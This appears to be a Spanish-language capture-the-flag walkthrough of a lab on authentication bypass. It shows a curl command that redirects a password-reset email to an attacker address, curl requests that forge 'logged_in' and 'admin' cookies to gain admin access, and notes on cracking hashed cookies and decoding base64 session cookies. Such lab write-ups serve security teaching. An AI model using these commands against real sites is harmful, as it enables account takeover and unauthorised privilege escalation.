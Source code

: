 esta variable contiene los datos recibidos del POST. En la misma consulta el nombre del POST  simplemente cambiamos los POST para cambiar el email.

```
curl 'http://10.10.225.254/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```
![image](https://github.com/user-attachments/assets/f5ccf629-8821-4219-9b31-6c2efa6ec434)

## MANIPULACIÓN DE COOKIES

Examinando y editando las cookies podemos hacer que un servidor wb de una sesion online tenga diferentes resultados, pudiendo hacer un acceso no autenticado, o desde otro usuario o elevar privilegios.

La mayoria de las cookies van en texto plano.

![image](https://github.com/user-attachments/assets/d3d80c80-370c-49d5-8df4-99a587de8311)

Nosotros usamos una cookie (logged_in) que da el control del usuario que esta loggeado en este momento o no o un admin que tenga dichos permisos. Usando la logica, podemos cambiar el contenido de las cookies para nuestros privilegios

```
curl http://10.10.225.254/cookie-test
```

Ahora mandaremos otra consulta de la (logged_IN) para ponerlo en true y la admin cookie en falso

```
curl -H "Cookie: logged_in=true; admin=false" http://10.10.225.254/cookie-test
```
Recibimos el mensaje "Logged In As A User"

```
curl -H "Cookie: logged_in=true; admin=true" http://10.10.225.254/cookie-test
```

Nos devuelve el mensaje "Logged In As An Admin" 

Aveces la cookie esta en hash 


![image](https://github.com/user-attachments/assets/ed4db9e6-86d7-4b45-b379-54467c653c6d)

[CrackStation](https://crackstation.net)

El codificar es similar que el hash esto se hace para hacer bypass, comunes con base32, base64, etc

Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/

Esta string esta en base64 codificada con el valor ("id":1,"admin":false)



